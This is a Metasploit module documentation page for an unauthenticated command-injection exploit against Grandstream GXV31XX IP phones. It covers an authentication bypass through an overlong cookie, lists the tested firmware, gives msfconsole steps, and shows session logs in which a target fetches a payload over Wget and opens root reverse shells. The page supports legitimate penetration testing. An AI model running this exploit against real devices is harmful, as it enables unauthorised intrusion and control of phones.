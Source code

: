 ## Vulnerable Application

This module exploits a command injection vulnerability in Grandstream GXV31XX
IP multimedia phones. The 'settimezone' action does not validate input in the
'timezone' parameter allowing injection of arbitrary commands.

A buffer overflow in the 'phonecookie' cookie parsing allows authentication
to be bypassed by providing an alphanumeric cookie 93 characters in length.

This module was tested successfully on Grandstream models:

* GXV3175v2 hardware revision V2.6A with firmware version 1.0.1.19; and
* GXV3140 hardware revision V0.4B with firmware version 1.0.1.27.

## Verification Steps

1. `msfconsole`
1. `use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec`
1. `set rhosts [IP]`
1. `set target [target]`
1. `run`
1. You should get a session

## Options


## Scenarios

### Grandstream GXV3140

```
msf > use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set rhosts 10.1.1.111
rhosts => 10.1.1.111
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > run

[*] Started bind TCP handler against 10.1.1.111:4444
[*] Command shell session 1 opened (10.1.1.112:36769 -> 10.1.1.111:4444 ) at 2022-01-29 02:30:13 -0500


Shell Banner:
_!_
-----


/ # uname -a
uname -a
Linux gxv3140_000b8229ac36 2.6.10_gxv31xx #15 Tue Jul 16 11:07:04 CDT 2013 armv5tejl unknown
/ #

```

### Grandstream GXV3175v2

```
msf > use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set rhosts 10.1.1.109
rhosts => 10.1.1.109
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set lhost 10.1.1.110
lhost => 10.1.1.110
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set target 1
target => 1
msf exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > run

[*] Started reverse TCP handler on 10.1.1.110:4444 
[*] Using URL: http://0.0.0.0:8080/JF62dexHKN8b
[*] Local IP: http://10.1.1.110:8080/JF62dexHKN8b
[*] Client 10.1.1.109 (Wget/1.10.1) requested /JF62dexHKN8b
[*] Sending payload to 10.1.1.109 (Wget/1.10.1)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Meterpreter session 1 opened (10.1.1.110:4444 -> 10.1.1.109:39371 ) at 2022-01-08 13:27:44 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo 
Computer     : 10.1.1.109
OS           :  (Linux 2.6.32_gxv3170v2)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter >
```
